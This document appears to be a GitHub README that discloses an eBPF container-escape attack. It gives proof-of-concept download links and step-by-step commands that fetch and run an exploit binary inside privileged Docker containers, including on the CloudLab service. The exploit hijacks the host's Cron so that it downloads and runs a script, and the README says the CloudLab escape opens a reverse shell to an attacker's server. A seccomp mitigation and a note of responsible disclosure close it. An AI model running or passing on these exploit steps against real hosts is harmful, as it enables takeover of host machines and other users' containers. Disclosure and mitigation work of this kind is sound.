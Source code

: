 # Universal Container Escape with eBPF

## Attack Requirements
Enabling eBPF inside a contianer. This needs to run docker with one of the following flag:  
- `--cap-add SYS_ADMIN`
- `--privileged`
- `-v /var/run/docker.sock:/var/run/docker.sock`  

If the container is running with any of the three config, users can run eBPF in this container and can use eBPF to escape this container.  
e.g., `docker run -it --name container_test --privileged ubuntu:20.04 bash`

## Attack Detail
Inside a Container, the attackers can use eBPF tracing program (e.g., KProbe) to hijack the processes out of the containers via writing their memory and opened files with the bpf_probe_write_user helper. By injecting malicious commands  (e.g., spawn a reverse shell to the attacker's host) to a privilege process (e.g., bash, Cron) in Host VM, the attackers can execute commands in the host to get control of the host VM and escape the container. 


## Exploit Any Container on Ubuntu 20.04
Here is a PoC for hijacking the Cron process in Ubuntu 20.04. You can run a container with CAP_SYS_ADMIN in Ubuntu 20.04, and execute the PoC program inside the container to hijack the host's Cron process and escape the container.  

#### Get the PoC
PoC Links: [Link1](https://cloud.tsinghua.edu.cn/f/063dd19446d24119b860/?dl=1)  or [Link2](https://drive.google.com/file/d/1glJCZVZuHCT9Y_V4PvQ9s_KXLf2AVBHX/view?usp=sharing)  

The PoC files contains several simple files,
``` bash
\evil_test
├── Dockerfile
├── README.txt
├── Vagrantfile
├── build.sh
├── exploit
└── run.sh
```

#### Run the PoC
Step-1: Create a VM with Ubuntu 20.04.
``` bash
$ tee -a Vagrantfile <<EOF
Vagrant.configure("2") do |config|
  config.vm.box = "generic/ubuntu2004"
end
EOF

$ vagrant init
$ vagrant up
$ vagrant ssh
```

Step-2: Launch the container and perform attack.
``` bash
# in the vagrant VM
$ wget https://cloud.tsinghua.edu.cn/f/063dd19446d24119b860/?dl=1 -O evil_test.zip
$ unzip evil_test.zip
$ cd evial_test
$ bash build.sh
Tick: 1
Tick: 2
...
```

Note that the `build.sh` will build and run the following Dockfile. 
``` bash
FROM ubuntu:20.04        
ARG DEBIAN_FRONTEND=noninteractive        
RUN apt update -y
RUN apt install -y wget
COPY ./exploit /
COPY ./run.sh /
CMD ["/bin/bash","/run.sh"]
```


Step-3: Check if the eBPF exploit program can success to escape the container.   

The eBPF `exploit` program will hijack the Cron of the host from the container. It will inject a command to the Cron to download and run a bash file, e.g., the `attack.sh` which create a directory and file at `/root`. If it success to escape the container, you will find a file with content `pwn` created in the path `/root/evil_escape/escape `.

``` bash
# in the vagrant VM
$ ls /root/evil_escape/escape
/root/evil_escape/escape  xxx

$ cat /root/evil_escape/escape 
pwn
```

Note that, the attackers actually can execute any commands in the `attack.sh` more than write files to `\root`.


## Exploit the CloudLab
CloudLab is a Docker based desktop environment. It has thousands of users and some of them deploy it online as public/private programming services. Users can run code in their online shell. Accordingly, attackers can escape the container via eBPF and harm other users' container instances.    

Here's the steps to run the exploit file in the container's shell of CloudLab.
``` bash
// inside the container
$ tools/docker/run
# wget https://cloud.tsinghua.edu.cn/f/886e8962ccb4472d8eb7/?dl=1 -O ebpf_exploit
# chmod +x ebpf_exploit
#./ebpf_exploit
Tick: 1
Tick: 2
...
```
Then, the container is escaped and can spwan a reserve shell to the attacker's server.

Note that this issue has been fixed at Jun 30 2022 after we disclose it to the TinyLab. 

### Mitigate
To run container with cap SYS_ADMIN, eBPF should be disabled. 
For example, we can set a seccomp rule for the Docker to deny the sys_bpf. You can write a Seccomp profile just like this,    
https://github.com/tinyclub/cloud-lab/blob/d19ff92713685a7fb84b423dea6a184b25c378c9/configs/common/seccomp-profiles-default.json


Then, you can use the `--security-opt seccomp=profile.json` flag to launch the Docker image with seccomp rules.

``` bash
docker run -it --name container_test --security-opt seccomp=profile.json ubuntu:20.04 bash
```